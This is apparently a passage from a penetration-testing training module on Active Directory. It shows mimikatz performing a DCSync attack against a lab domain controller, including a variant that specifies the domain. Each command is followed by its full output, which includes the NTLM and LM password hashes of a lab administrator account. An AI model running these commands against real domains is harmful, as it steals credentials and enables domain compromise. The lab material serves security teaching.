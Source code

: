 ```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```
###### When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:
 
```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
```
